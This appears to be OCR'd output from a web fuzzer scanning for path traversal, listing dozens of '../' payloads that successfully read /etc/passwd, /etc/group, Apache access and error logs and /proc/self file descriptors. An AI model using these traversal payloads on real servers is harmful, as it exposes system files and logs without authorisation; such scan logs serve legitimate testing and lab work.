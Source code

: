 ../../../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                                                                                 
../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                              
../../../../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                     
../../../../../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                                                                           
../../../../../../../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                                                                     
../../../../../../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                               
../../../../../../../../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                                                                  
../../../../../../../../../../../../../../../var/log/apache2/access.log [Status: 200, Size: 174875, Words: 16929, Lines: 1023]                                                                                         
../../../../../../../../../../../../../../../var/log/apache2/error.log [Status: 200, Size: 547780, Words: 54819, Lines: 2420]                                                                                          
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                                                                 
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                                                                    
../../../../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                 
../../../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                    
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                                                                       
../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                          
../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                             
/proc/self/fd/2         [Status: 200, Size: 579176, Words: 57574, Lines: 2529]                                                                                
/proc/self/status       [Status: 200, Size: 5427, Words: 255, Lines: 136]                                                                                     
/etc/group              [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                                     
/etc/passwd             [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                                     
../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                                
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                                                           
../../../../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 196706, Words: 19071, Lines: 1142]                                                                                                        
../../../../../../../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 197068, Words: 19107, Lines: 1144]                                                                                               
../../../../../../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 197276, Words: 19125, Lines: 1145]                                                                                                  
../../../../../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 197481, Words: 19143, Lines: 1146]                                                                                                     
../../../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 197683, Words: 19161, Lines: 1147]                                                                                                           
../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 198069, Words: 19197, Lines: 1149]                                                                                                                    
../../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 197879, Words: 19179, Lines: 1148]                                                                                                              
../../../../../../../../../../../proc/self/fd/8 [Status: 200, Size: 197879, Words: 19179, Lines: 1148]                                                                                                                 